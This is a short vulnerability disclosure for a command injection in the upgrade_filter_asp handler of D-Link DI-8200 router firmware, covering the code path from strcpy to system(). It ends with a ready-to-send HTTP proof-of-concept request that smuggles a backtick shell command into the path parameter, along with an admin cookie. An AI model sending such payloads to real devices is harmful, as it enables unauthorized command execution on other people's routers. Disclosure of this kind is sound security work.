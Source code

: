 Firmware version:

	DI_8200-16.07.26A1
	
Download address:

	http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200)

Command injection:

	The upgrade_filter_asp function has command injection；
	The received request is sent to parm; And parm doesn't do any filtering;
	parm data is sent to v17 through strcpy, and then only "http://" is matched without any filtering；
	Splice to v16 through sprintf, and finally system(v16); Cause command injection;
	![Pasted image 20240806103832](https://github.com/user-attachments/assets/2732c797-1af5-4efb-9cc2-6e55a83620ba)


	Here is the FirmAE simulated firmware command injection process:

	![Pasted image 20240806104833](https://github.com/user-attachments/assets/de4fd74b-41f0-44f7-98d5-755d63e7b487)

	![Pasted image 20240806104945](https://github.com/user-attachments/assets/49a6b03f-22ea-49d0-bd54-89a4a25fc1e2)


poc：

```
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```
